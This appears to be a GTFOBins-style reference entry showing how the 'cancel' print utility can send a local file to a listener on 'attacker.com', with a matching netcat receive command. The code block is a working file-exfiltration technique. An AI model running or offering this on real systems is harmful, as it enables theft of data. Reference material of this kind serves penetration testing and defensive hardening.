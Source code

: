 # GTFOBin: cancel

## File upload

It can exfiltrate files on the network.

Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.

```
RHOST=attacker.com
RPORT=12345
LFILE=file_to_send
cancel -u "$(cat $LFILE)" -h $RHOST:$RPORT
```